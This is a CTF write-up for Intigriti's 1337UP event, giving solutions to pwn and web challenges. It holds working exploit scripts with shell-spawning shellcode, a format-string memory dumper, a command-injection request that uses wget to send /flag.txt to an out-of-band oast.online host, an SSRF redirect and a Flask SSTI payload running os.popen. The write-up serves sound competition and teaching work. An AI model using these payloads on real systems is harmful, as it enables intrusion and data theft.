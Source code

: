 ```yaml
---
layout: post
title: 1337UP CTF by Intrigriti
author: Kolja
categories: [CTF]
tags: [web, pwn]
---
```


# 1337UP CTF by Intrigriti 


## Easy Register

This challenge was a basic stack buffer overflow with a stack leak. We used the leak to overwrite the saved rip with the address of our shellcode.

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("remote-server-url", 1234)
    else:
        p = process("./easy_register")

    # Try
    # p.recvlines(1), p.recv(10), p.readline()
    test = p.recvlines(7)
    overall_length = 88
    shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
    leak = p64(int(test[-1].split(b"listing at ")[1].split(b".")[0], 16), endian="little")
    exploit = b"\x90" * (overall_length - len(shellcode) -20) + shellcode + b"\x90" * 20 + leak
    print(len(exploit))
    p.recvuntil(b"Hacker name >")
    p.sendline(exploit)
    # p.write('data'), p.write('data with newline')
    p.interactive()
    # Note that if your program never ends, you will never see any output
    print(p.recvall())
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

## Search Engine Redacted

This was a pwn challenge. There was a format string vulnerability in the search function when the search term was not found. Our solution here is not clean. We used a short python script to generate format strings, which read bytes from memory at a certain offset. We then pasted them into the search and found the flag in memory.

```
from os import *

for i in range(0,100,2):
    test = ""
    for j in range(2):
         test += "%" + str(i+j) + "$016lx"
         #test += "%" + str(i+j) + "$c"
    print("input:" + test)
    system("echo '" + test + "'| ./search_engine_redacted")
```

`1337UP{Th3s3_f0rm4ts_ar3_wh4ck!}`

## Cake
This was a pwn challenge. The executable has no protections enabled. We control the least significant byte of the `saved rbp` pointer in the `eat` function. The buffer, that we overwrite for this is 256 bytes long. Byte 257 overwrites the least significant byte of `saved rbp`. In our exploit we overwrite this byte to decrease the value of `saved rbp`. This allows us to control the `saved rip` when the next function (`menu`) returns. At this point, we use a `jmp rsp` gadget to jump to a relative jump, which then takes us to the beginning of our shellcode, which we place at the beginning of our buffer.

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("cake.ctf.intigriti.io", 9999)
    else:
        p = process("./cake")
        #p = gdb.debug("./cake", gdbscript='break eat')

    
    binary = ELF('./cake')

    # Choose the right path, to get to the vulnerable read call
    p.recvuntil(b">")
    p.sendline(b"1")
    
    # Shellcode for dropping a shell
    shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
    
    # jmp rsp gadget
    jmp_gadget = 0x0000000000400dbb
    
    exploit = b"\x90" * (32 - len(shellcode)) + shellcode
    # Generate jmp rsp + relative jmp with the right offset
    for i in range(32,256,16):
        print( "jmp $-0x"+ '{:02X}'.format(i +8))
        relative_jmp = asm("jmp $-0x"+ '{:02X}'.format(i +8))
        exploit += p64(jmp_gadget) + relative_jmp + b"\x90" * (8-len(relative_jmp)) 
    # Overwriting the least significant byte.
    exploit += b"\x08"
    print("[+] exploit:")
    print(exploit)

    print(len(exploit))
    # Receive until read call and send of manipulated buffer
    p.recvuntil(b"How many bites would you like? (1, 2, or 3):")
    p.send(exploit)
    
    # Hopefully drop shell here
    p.interactive()
    
    # Note that if your program never ends, you will never see any output
    print(p.recvall())
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

`1337UP{Wow_that_was_Quite_the_journey!}`

## Traveler

There was only one point in the application, that provided some interaction. So we played around with it and got an error:
```
<center>An error occurred whilst executing: bash check.sh Couple$(whoami)</center>
```

Seemed like a command injection, but I got no output. So we started an `interactsh-client`:
```
~/go/bin/interactsh-client -v -o interactsh-logs.txt
```

We then with some trial and error crafted this request, which uses `wget` to post command output to the server. I found the flag in the root directory and leaked it this way:
```
POST /package-details.php HTTP/2
Host: traveller.ctf.intigriti.io
[...]

pack=Couple$(wget+http%3a//$(echo+test2).c8m9dmgkek6ds5otf660cesjpzyyyyyyn.oast.online/lsout+--post-data+"$(cat+/flag.txt)")&submit=Submit
```

On the `interactsh-client` we got:
```
------------
HTTP Request
------------
`
POST /lsout HTTP/1.1
Host: test2.c8m9dmgkek6ds5otf660cesjpzyyyyyyn.oast.online
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
User-Agent: Wget/1.20.3 (linux-gnu)

1337UP{C0MM4nd_Inj3ti0n}
```


## DeadTube

This is just one endpoint, which is issuing requests, which means SSRF. We had source code access, that told us that the flag is given when issuing a request to `/flag` from localhost. 

To solve it we used an URL Shortener to redirect the connection to `https://127.0.01:8080/flag`.

`1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}`


## Quiz

Quiz, that allows us to earn points and gives a flag if we reach 100 points (which is not possible). This is a simple race condition. We sent the request triggering a point increase to `turbo intruder` and used the `race.py` script to issue it 30 times. We were then able to buy the flag:

`1337UP{this_is_a_secret_flag}`

## 1Truth2Lies
This allows Flask SSTI on one endpoint, while the other two are not vulnerable. We need to URL encode the path, as it is quite strange. For this, we used `cyberchef`. Then there is a basic filter, but one of the payloads from `PayloadAllTheThings` was not filtered. 

We issued the following request to retrieve the flag:
```
GET /%0A%20%E2%96%84%E2%96%88%20%20%20%20%E2%96%84%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%20%E2%96%84%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%20%20%20%E2%96%84%E2%96%88%20%20%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%80%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%20%20%20%20%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%80%E2%96%80%20%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%20%20%20%20%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%84%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%20%20%20%E2%96%84%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%20%20%20%E2%96%84%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%80%20%20%20%20%E2%96%80%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%80%20%20%20%20%20%20%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%88%E2%96%88%20%20%E2%96%80%E2%96%88%20%20%20%E2%96%88%E2%96%80%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%80%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%80?input={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat+flag*')|attr('read')()}} HTTP/2
[...]
```

In the response we got the flag:
```
HTTP/2 200 OK
Date: Sat, 12 Mar 2022 14:55:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 67
Set-Cookie: INGRESSCOOKIE=1647096911.236.13402.145793|dc1d9196c6bf1d67eb64d1980e38e24f; Path=/; Secure; HttpOnly

Your input: flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}
```


